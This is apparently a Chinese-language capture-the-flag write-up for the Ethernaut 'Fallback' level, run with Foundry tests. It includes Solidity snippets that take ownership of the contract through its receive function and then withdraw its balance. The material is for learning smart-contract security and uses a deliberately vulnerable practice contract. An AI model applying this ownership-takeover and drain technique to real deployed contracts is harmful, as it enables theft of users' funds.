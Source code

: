 # Fallback

## 题目描述

[原题 in Sepolia](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

通过这关你需要

1. 获得这个合约的所有权
2. 把这个合约的的余额减到0

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Fallback -vvvvv
```

## 功能简述

1. 合约中有两个地方可以替换owner

    contribute函数

    ```solidity
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if(contributions[msg.sender] > contributions[owner]) {
          owner = msg.sender;
        }
      }
    ```

    receive函数

    ```solidity
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
      }
    ```

2. 使用contribute函数进行攻击，需要我们比owner还要有钱

    查询合约owner有多少余额，1000贡献（1000ETH）

    ```solidity
    constructor() {
    	owner = msg.sender;
    	contributions[msg.sender] = 1000 * (1 ether);
    }
    ```

    虽然我们可以使用Foundry进行钞能力攻击，但......

3. 使用receive函数进行攻击，需要我们给合约转一笔钱并且还需要我们在合约中的余额大于0。所以先给合约贡献一点钱，再给合约转一笔钱。

    ```solidity
    Fallback(payable(fallBack)).contribute{value: 1}();
    
    (bool success, bytes memory data) = payable(fallBack).call{value: 1}("");
    if (!success) {
    	revert(string(data));
    }
    ```

    即可获取到合约的owner。

    ```solidity
    address owner = Fallback(payable(fallBack)).owner();
    assertEq(owner, address(this));
    ```

4. 最后把合约中的钱转走

    ```solidity
    Fallback(payable(fallBack)).withdraw();
    ```

5. 提交合约实例，完成目标。

